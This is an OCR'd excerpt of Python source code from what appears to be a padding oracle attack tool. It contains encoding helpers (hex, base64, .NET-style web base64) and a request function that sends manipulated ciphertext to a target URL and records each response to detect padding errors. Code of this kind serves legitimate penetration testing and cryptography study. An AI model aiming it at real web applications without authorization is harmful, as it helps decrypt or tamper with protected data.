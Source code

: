             # encode
            if fmt == 1 or fmt == 2:
                # hex
                hex_str = data.hex()
                if fmt == 2:
                    hex_str = hex_str.upper()
                return hex_str.encode('ascii')
            elif fmt == 3:
                return self.web64_encode(data, net=True)
            elif fmt == 4:
                return self.web64_encode(data, net=False)
            else:
                # base64
                return base64.b64encode(data).replace(b"\n", b"")

    def web64_encode(self, raw_data: bytes, net: bool) -> bytes:
        b64 = base64.b64encode(raw_data).decode('ascii')
        b64 = b64.replace('+', '-').replace('/', '_')
        eq_count = b64.count('=')
        b64 = b64.replace('=', '')
        if net:
            b64 += str(eq_count)
        return b64.encode('ascii')

    def web64_decode(self, enc_str: str, net: bool) -> bytes:
        tmp = enc_str.replace('-', '+').replace('_', '/')
        if net:
            eq_count = tmp[-1]
            tmp = tmp[:-1]
            tmp += '=' * int(eq_count)
        return base64.b64decode(tmp)

    # -------------------------------
    # Oracle Query / Check
    # -------------------------------
    def make_request(self, test_url: str) -> tuple:
        """
        Minimal GET request that replaces the sample in the URL with our manipulated ciphertext.
        You could expand to POST, cookies, etc.
        """
        self.request_count += 1
        try:
            resp = requests.get(test_url, allow_redirects=False, timeout=10)
            status_code = resp.status_code
            content = resp.text
            loc = resp.headers.get("Location", "N/A")
            c_len = len(content)
            return (status_code, content, loc, c_len)
        except Exception as e:
            print(f"[!] Request error: {e}")
            return (0, "", "N/A", 0)
